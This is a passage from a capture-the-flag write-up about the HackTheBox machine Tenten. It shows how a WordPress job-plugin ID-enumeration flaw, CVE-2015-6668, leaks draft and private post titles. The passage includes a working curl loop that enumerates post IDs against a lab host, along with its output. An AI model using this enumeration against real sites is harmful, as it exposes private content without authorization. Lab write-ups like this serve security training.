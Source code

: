 #### Exploit Details

When this plugin stores things like an uploaded CV, it stores it in the
same table as posts, just as private data. When this plugin loads, it is
getting the title from item 8 in that table, which is in the url:
`http://10.10.10.10/index.php/jobs/apply/8/`. By changing that number, I
can leak post titles in the database (including draft and private
posts). This information leak is CVE-2015-6668.

The job application page is
`http://10.10.10.10/index.php/jobs/apply/8/`, and I see the title in two
places:

![](/img/image-20200714115350755.png)

If I change the `8` to a `1`, I get the title associated with the Hello
World! post:

![](/img/image-20200714115312742.png)

#### List Post Titles

I can isolate the post title field in the plugin page with `curl`,
`grep`, and `cut`:



    ┌─[htb-0xdf☺htb-rvrl5lfpiv]─[~/tenten]
    └──╼ $curl -s http://10.10.10.10/index.php/jobs/apply/8/ | grep 'entry-title' | cut -d'>' -f2 | cut -d'<' -f1
    Job Application: Pen Tester



On a clean reset of the box, it looks like there are 13 rows in the
database:



    ┌─[htb-0xdf☺htb-rvrl5lfpiv]─[~/tenten]
    └──╼ $for i in $(seq 1 25); do echo -n "$i: "; curl -s http://10.10.10.10/index.php/jobs/apply/$i/ | grep 'entry-title' | cut -d'>' -f2 | cut -d'<' -f1; done
    1: Job Application: Hello world!
    2: Job Application: Sample Page
    3: Job Application: Auto Draft
    4: Job Application
    5: Job Application: Jobs Listing
    6: Job Application: Job Application
    7: Job Application: Register
    8: Job Application: Pen Tester
    9: Job Application:
    10: Job Application: Application
    11: Job Application: cube
    12: Job Application: Application
    13: Job Application: HackerAccessGranted
    14: Job Application
    15: Job Application
    16: Job Application
    17: Job Application
    18: Job Application
    19: Job Application
    20: Job Application
    21: Job Application
    22: Job Application
    23: Job Application
    24: Job Application
    25: Job Application
